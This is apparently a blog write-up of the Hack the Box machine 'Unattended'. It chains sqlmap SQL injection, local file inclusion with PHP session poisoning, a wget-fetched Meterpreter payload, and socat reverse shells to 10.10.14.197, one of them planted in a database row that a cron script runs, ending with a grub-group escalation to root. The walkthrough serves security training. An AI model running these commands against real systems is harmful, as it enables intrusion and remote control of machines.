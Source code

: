 +++
author = "Nick"
categories = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
date = 2019-08-24T15:06:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-3.png"
slug = "hack-the-box-unattended"
summary = "Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!"
tags = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
title = "Hack the Box - Unattended"

+++


Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!

As alwasy, the first thing we do is our standard nmap scan: ```nmap -sC -sV -oA unattended 10.10.10.126```. We get a pretty normal output. We see that the scan leaks a host name of nestedflanders.htb. We'll add that to our hosts file: ```bash echo "10.10.10.126     nestedflanders.htb" >> /etc/hosts```. 

We will head over to the web interface on the box and see what's there. We are greated with an Apache2 install landing. Normally, we would run dirb or gobuster against the domain to enumerate it but this time, we'll run [Nikto](https://github.com/sullo/nikto). We issue a standard ```nikto -host https://nestedflanders.htb``` and wait for our results. Often Nikto is slow but fairly comprehensive.

We see that there are two index files. A index.html and an index.php. If we head over to index.php we are greated with the man himself!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-27.png" >}}

As we explore the site, we see what could be a SQLi.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-28.png" >}}

We'll boot up SQLmap and see what we can find. We need sqlmap the page id: ```sqlmap -u https://nestedflanders.htb/index.php?=587 --dbs --threads 10```. We let nmap run and see what it enumerates.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-29.png" >}}

We see a database called neddy, lets check the tables within. ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --tables --threads 10```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-31.png" >}}

We see there are some tables, but the tables 'filepath' sticks out, lets dump it. The reason that this one seems to be a first pick is because when it comes to filepaths and databases, we might be able to LFI our way in. We issue ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --T filepath --dump --threads 10```.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-32.png" caption="Our three entries. These are the same links listed on the page as well. Hmm..." >}}

We see that our table has three entries. These are also the same values on the index.php as well. While looking at this table, we can see if pathing to the value gets us to this path.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-33.png" >}}

We see that this does indeed send us to the same page. We can test for injection manually to read a the hosts file. After googling around t[his page](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/) was a pretty great resource for this.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-34.png" caption="This query results in the below." >}}

{{< figure src="__GHOST_URL__/content/images/2019/08/image-35.png" caption="We got an output!" >}}

Now we are going to have to see if we can read the PHP Session file. We can do the same process as above but targeting our session file. That file is stored in /var/lib/php/sessions/sess_{ID}.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-36.png" >}}

{{< figure src="__GHOST_URL__/content/images/2019/08/image-37.png" >}}

The goal here is to inject a reverse shell into this session file.  We can poc it by appending a small function at the end of our session value and reading it back

{{< figure src="__GHOST_URL__/content/images/2019/08/image-38.png" caption="Session poisoned." >}}

{{< figure src="__GHOST_URL__/content/images/2019/08/image-39.png" caption="Session called back with the same command above, but we see we have the whoami command output." >}}

Now that we know this will work, lets create a reverse shell. We'll do this with MSFPC so we can have a Meterpreter session. We will issue ```msfpc php``` and follow up our prompts.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-40.png" >}}

We will host a http server for our script. We will then inject the wget command to tell the system to download it from us.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-41.png" >}}

We see that the file was downloaded:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-42.png" >}}

Now we need to call the session via the LFI.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-43.png" >}}

And we see our Meterpreter session light up!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-44.png" >}}

We have a shell and we see there is only 1 users, guly. However, we are only www-data so we don't have rights to list her directory. We can look at all the items we have at our disposal. When we cat the index.php file we see some credentials:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-45.png" >}}

Awesome, we have some credentials. We continue our enumeration and see a file called check.pl in the /var/www directory. We download the file so we can see what it does. Seemingly executes items in 'checkrelease' when its called. We also know that the script is run every minute.

However, it doesn't seem that I can save anything in any normal place on the box. So lets see what the database looks like. ```echo "use neddy; select * from config"|mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-46.png" >}}

This is interesting, so based on the perl script we saw that runs every minute, we can probably modify this value to reverse back to us. This machine doesn't have netcat on it, but we do have access to [socat](https://linux.die.net/man/1/socat).

We will start up a socat listener on our local machine ```socat file:`tty`,raw,echo=0 tcp-listen:80``` Then we'll tell our box to call home ```socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:80```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-47.png" caption="Our socat has activated." >}}

Now lets see if we can access mysql in this shell. ```mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-48.png" >}}

Lets updated ID 86 to call back to us again. ```UPDATE config SET option_value = "socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:443" where id = 86;```

This gives us a shell back as Guly, we have user.txt! When enum Guly's groups we see she is part of the grub group. We head to the boot directory and try to find some data here. We see that initrd.im-4.9.0-8-amd64 is owned by grub. We extract the image and see that it's encrypted. We can copy this to our local machine and simply sudo ./uninitrd c0m3s3f0ss34nt4n1. That gives us the key to unlock the drive and we have root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

